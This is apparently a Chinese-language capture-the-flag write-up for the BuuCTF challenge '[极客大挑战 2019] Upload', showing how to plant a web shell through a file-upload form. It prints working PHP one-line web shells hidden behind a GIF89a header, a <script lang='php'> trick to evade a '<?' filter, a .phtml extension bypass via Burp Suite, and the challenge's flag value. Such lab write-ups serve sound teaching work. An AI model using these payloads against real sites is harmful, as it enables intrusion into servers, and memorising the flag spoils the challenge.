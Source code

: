 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - PHP
  - 文件上传
  - 一句话木马
---
```


# \[极客大挑战 2019\] Upload

## 前置工作

打开靶机，看到的就是如此简简单单的文件上传入口，通常这种文件上传的就应该想到**一句话木马**，然后使用**蚁剑**获得靶机的操控权

![](https://p.sda1.dev/13/bb15d8379c77045d0f53ae2a835ae7b8/image.png)

!!! note "通常我们会这么写一句话木马"
    ```php
    <?php @eval($_POST['蚁剑连接密码']);?>
    ```

网页的标题名字叫`上传头像`，说明我最好伪造一个图片文件，把木马植入进去

## 图片木马

为什么要伪造 GIF 作为木马图片，因为文件头是固定的，如果你的文件头是 `GIF89a?`，那么你就是一张 GIF 图片（不论你后面跟着的是什么），所以我们就用最简单的方法制作一个 GIF 图片木马，以下是 `a.gif` 的代码

```php
GIF89a?
<?php @eval($_POST['attack']);?>
```

随后我们上传 `a.gif`，发现报错 `NO! HACKER! your file included '<?'`，说明他检测到了我木马文件中的 `<?php` 字段，那么我现在希望的是能绕过这个检测，这就需要 PHP 的另一种写法了

![](https://p.sda1.dev/13/cd365affb109724c4c785c059f3db2fa/image.png)

## 木马改进

除了使用 `<?php ?>` 的方式声明 PHP 代码，我们还能够使用传统的 JS 脚本声明方法，即 `<script lang="php"></script>`，这就能够绕过 `<?php` 的检测，以下是改进后的木马

```php
GIF89a?
<script lang="php">
    @eval($_POST['attack']);
</script>
```

我们把改进后的 `a.gif` 上传，发现上传已完成，但是 `.gif` 的格式摆脱不了被当成图片处理的本质，我们需要对后缀进行更改

![](https://p.sda1.dev/13/4235037389767da5dc5413f31a3e8b7a/image.png)

## 后缀更改

我们使用 Burp Suite 进行第二次上传，使用拦截模式提供的内嵌浏览器，将刚才的 `a.gif` 再一次上传，此时查看 Burp Suite 发现已经将 Http 请求拦截下来了

![](https://p.sda1.dev/13/abe920c6faaf9362e8497c31e8a05067/image.png)

在第 16 行有一个 `filename="a.gif"` ，我们直接点，把 `.gif` 改成 `.php`，并放行，发现报错

![](https://p.sda1.dev/13/ab210ba8d1012b18d62f1dd45eebfb0b/image.png)

说明我们不能很单纯地使用 `.php` 后缀，但是实际上不仅仅有 `.php` 后缀的文件才能被执行，我们可以使用变式后缀，例如 `.phtml`，打开的时候也会被当成 PHP 文件执行，于是我们更改 `filename="a.phtml"`，再次放行

![](https://p.sda1.dev/13/29d4bc4b071bb1912322896834a60496/image.png)

## 攻入靶机

发现文件已经成功上传，我们猜测保存在根目录，尝试访问 `/a.phtml`，发现不存在，再次猜测保存在 `/upload` 目录，尝试访问 `/upload/a.phtml`，发现能够访问，但是除了第一行的 `GIF89a?` 之外没有任何内容，此时是正常情况，我们已经可以利用蚁剑进行连接了，我们打开蚁剑，右键添加数据，按照如下图所示填写内容，连接密码即在一句话木马中，随后点击测试连接，提示连接成功，点击添加即可

![](https://p.sda1.dev/13/c06ea551e002ae398d235a923581fce2/image.png)

随后如下页面右键选择文件管理

![](https://p.sda1.dev/13/6d4407c792a5b3622afca08488f6bee7/image.png)

进入后直接往根目录去看，拉到底一下就发现了 `flag` 文件

![](https://p.sda1.dev/13/bb24c5cdb9de05545880c455bdf5c470/image.png)

点开就能看到 Flag 了，最终结果为 `flag{8cf43e2c-bfc7-4900-80d7-900ff5512f1a}`